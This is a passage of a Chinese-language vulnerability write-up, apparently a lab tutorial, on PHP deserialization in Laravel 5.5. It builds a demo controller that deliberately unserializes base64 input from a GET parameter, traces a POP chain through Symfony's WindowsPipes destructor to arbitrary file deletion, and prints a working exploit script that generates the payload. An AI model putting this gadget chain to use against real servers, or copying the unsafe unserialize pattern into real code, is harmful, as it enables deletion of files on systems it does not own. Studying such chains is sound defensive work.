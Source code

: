 ```php
Route::get('/', "DemoController@demo");
```

在`app/Http/Controllers`目录下添加控制器

```php
<?php
namespace App\Http\Controllers;

use Illuminate\Http\Request;
class DemoController extends Controller
{
    public function demo()
    {
        highlight_file(__FILE__);
        if(isset($_GET['data'])){
            $filename = "C:\Tools\phpstudy_pro\WWW\laravel55\public\info.php";
            @unserialize(base64_decode($_GET['data']));
            if(file_exists($filename)){
                echo $filename." is exit!".PHP_EOL;
            }else{
                echo $filename." has been deleted!".PHP_EOL;
            }
        }
    }
}
```
将源码用小皮面板进行搭建，访问`http://127.0.0.1/laravel55/public/index.php`，出现如下页面则说明环境部署成功

![undefined](https://p5.ssl.qhimg.com/t01ca00faceddc23d63.png "undefined")

# 漏洞分析
## POP链-1(任意文件删除漏洞)
跟进`Pipes/WindowsPipes.php`中的`__destruct()`方法，发现其调用了一个`removeFiles()`方法，跟进去后发现是一个简单的任意文件删除漏洞

![undefined](https://p0.ssl.qhimg.com/t01ac4cd5acefa47ad3.png "undefined")

### exp

```php
<?php
namespace Symfony\Component\Process\Pipes {
    class WindowsPipes {
        private $files = array();
        function __construct() {
            $this->files = array("C:/Tools/phpstudy_pro/WWW/laravel51/public/info.php");
        }
    }
    echo base64_encode(serialize(new WindowsPipes()));
}
?>
```
